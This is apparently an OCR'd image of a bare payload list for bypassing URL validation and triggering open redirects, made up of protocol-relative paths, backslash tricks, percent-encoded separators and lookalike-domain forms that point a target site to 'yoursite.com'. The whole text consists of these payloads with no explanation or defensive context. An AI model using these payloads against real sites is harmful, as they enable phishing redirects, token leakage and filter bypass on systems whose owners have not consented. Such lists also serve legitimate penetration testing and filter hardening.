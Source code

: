 \/yoururl.com 
\/\/yoururl.com 
\\yoururl.com 
//yoururl.com 
//theirsite@yoursite.com 
/\/yoursite.com 
https://yoursite.com%3F.theirsite.com/ 
https://yoursite.com%2523.theirsite.com/ 
https://yoursite?c=.theirsite.com/ (use # \ also) 
//%2F/yoursite.com 
////yoursite.com 
https://theirsite.computer/ 
https://theirsite.com.mysite.com 
/%0D/yoursite.com (Also try %09, %00, %0a, %07) 
/%2F/yoururl.com 
/%5Cyoururl.com 
//google%E3%80%82com
